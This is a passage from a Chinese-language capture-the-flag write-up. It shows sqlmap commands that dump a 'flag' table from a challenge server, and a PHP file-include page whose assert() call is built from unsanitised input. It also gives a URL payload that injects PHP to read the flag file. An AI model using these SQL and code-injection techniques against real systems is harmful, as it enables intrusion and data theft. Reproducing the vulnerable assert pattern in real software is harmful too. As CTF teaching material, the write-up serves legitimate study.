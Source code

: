 发现一个带有flag字样的表

![BBSQLI_01.png](https://i.loli.net/2018/08/18/5b76f65658475.png)

第二步，根据表猜解字段

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --columns -T [GDJM_flag] --level 2
```

![BBSQLI_02.png](https://i.loli.net/2018/08/18/5b76f655a923a.png)

ok,flag基本在这了

第三步，猜解字段内容

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --dump -T [GDJM_flag] -C "flag" --level 2
```

![BBSQLI_03.png](https://i.loli.net/2018/08/18/5b76f655ca31e.png)

## makeit

源码泄露的利用，这里有一个自动检查源码泄露的插件

[SensInfo Finder](https://github.com/sqvds/sensinfor)

之后用githack将源码down下来

```PHP
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

这段php代码是有问题的，构造payload

```
http://202.112.51.184:15080/?page=' and die(file_get_contents('templates/flag.php')) or '
```
